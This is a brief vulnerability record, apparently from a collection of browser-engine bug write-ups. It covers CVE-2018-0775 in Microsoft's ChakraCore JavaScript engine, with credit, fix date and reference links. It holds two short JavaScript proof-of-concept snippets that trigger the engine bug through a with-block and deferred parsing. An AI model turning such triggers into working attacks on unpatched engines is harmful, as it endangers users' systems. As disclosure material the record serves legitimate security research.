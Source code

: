 # CVE-2018-0775

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

PoC 1:

```javascript
// Enable the flag using '\n'.repeat(0x1000)
eval(`(function f() {
    with ({}) {
        (function () {
            print(f);
        })();
    }
}());` + '\n'.repeat(0x1000));
```

PoC 2:

```javascript
// ./ch poc.js -ForceDeferParse
(function f() {
    with ({}) {
        (function () {
            print(f);
        })();
    }
}());
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0775)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1412)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/ee5ac64f965c44d97c3557951bdb88ef5889e213)